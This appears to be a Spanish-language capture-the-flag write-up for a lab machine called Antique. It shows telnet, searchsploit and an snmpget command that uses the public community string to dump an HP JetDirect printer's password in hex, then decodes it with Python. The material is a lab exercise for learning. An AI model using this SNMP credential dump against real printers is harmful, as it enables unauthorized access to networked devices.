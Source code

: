 Intentamos conectarnos a [[telnet]] usando el comando `telnet 10.10.11.107 23`, nos pide una contraseña la cual no sabemos, pero nos da esto de *HP JetDirect*
![[Antique10.png]]

### Buscando vulnerabilidades con [[searchsploit]]

Usamos ``searchsploit jetdirect`` y viendo todas a nosotros nos interesa la 22319 por lo que la vamos a descargar con el comando `searchsploit -m hardware/remote/22319.txt`

![[Antique8.png]]

Vamos a ver el archivo con [[cat]] usando el comando ``cat 22319.txt`
![[Antique9.png]]


###  Dumpeamos contraseña con [[snmpget]]

Modificando el payload que vimos en el exploit anterior, vamos a usar el comando `snmpget -v1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0` que nos va a servir para dumpear contraseñas en HEX

![[Antique7.png]]

nos da este output en hexadecimal

```
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```


### [[Pasar de HEX a ascii con python]]

Abri el  interprete de python con `python` despues se importa la libreria binascci con el comando `import binascii` luego vamos a poner todos los numeros en hexadecimal dandoselos a una variable poniendo

```
s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 135'
```

Y luego para terminar vamos a usar la libreria que importamos al principio con ``binascii.unhexlify(s.replace(' ',''))`` usando el replace para sacar los espacios

![[Antique11.png]]
![[Antique12.png]]
Y nos da la contraseña *P@ssw0rd@123!!123*
